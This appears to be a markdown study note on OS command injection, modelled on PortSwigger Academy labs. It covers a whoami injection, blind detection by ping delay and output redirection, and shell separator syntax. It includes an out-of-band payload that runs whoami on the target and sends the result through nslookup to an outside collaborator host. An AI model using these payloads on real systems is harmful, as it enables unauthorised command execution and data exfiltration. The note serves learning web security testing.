





# OS Command injection (5/5)

These vulnerabilities arise when an application executes commands in the server’s operating system that includes unsanitized user input, allowing malicious users to execute arbitrary commands in the server, which can lead to disclosure of sensitive information and potentially, compromise the whole system. Let’s take a look on this example:



This shopping application executes a shell command in order to check for how many of a product are in stock for a certain location. By crafting the request on a certain way, the attacker is able to subvert the application’s logic, causing it to execute arbitrary commands and return sensitive information in the response. The semicolon (;) is interpreted as the end of a command in bash, allowing the malicious user to follow the parameter with the command `whoami` , which returns the name of the current user in Unix systems.

# Checking for blind command injection with time delay

In case the web application doesn’t return the expected output in the response, the attacker might still be able to check for command injection by manipulating and analyzing response times with specific commands. By entering the command `ping -c 10 127.0.0.1` the user is able to tell the server to ping it’s own [loopback](https://en.wikipedia.org/wiki/Loopback) 10 times, and since the default interval between the ping probes is 1s, the application would take about 10 seconds to return a response.



# Checking for blind command injection with output redirection

There’s also the possibility where the attacker is able to redirect the command’s output to a file within the static content’s directory. Then, they’re able to use the browser to access that file by manipulating an API endpoint that retrieves files.





# Checking for blind command injection with [out-of-band](https://portswigger.net/burp/application-security-testing/oast) interaction

A malicious user can also identify blind command injection - and other - vulnerabilities by setting up an external server that can be used to receive and analyze data sent from the target server with an out-of-band interaction through the attacker’s payload. On the following example, the attacker uses *[nslookup](https://en.wikipedia.org/wiki/Nslookup)* in order to send data to a preconfigured server under their control and successfully identify the vulnerability.

Payload:

`||nslookup+`whoami`.c8l18zfve9k16afp9a6pv3wptgz7n4bt.oastify.com||`

Result:



# Separators (Copied from PortSwigger Academy)
A variety of shell metacharacters can be used to perform OS command injection attacks.

A number of characters function as command separators, 
allowing commands to be chained together. The following command 
separators work on both Windows and Unix-based systems:

- `&`
- `&&`
- `|`
- `||`

The following command separators work only on Unix-based systems:

- `;`
- Newline (`0x0a` or `\n`)

On Unix-based systems, you can also use backticks or the 
dollar character to perform inline execution of an injected command 
within the original command:

- ``` injected command ```
- `$(` injected command `)`

Note that the different shell metacharacters have subtly 
different behaviors that might affect whether they work in certain 
situations, and whether they allow in-band retrieval of command output 
or are useful only for blind exploitation.

Sometimes, the input that you control appears within 
quotation marks in the original command. In this situation, you need to 
terminate the quoted context (using `"` or `'`) before using suitable shell metacharacters to inject a new command.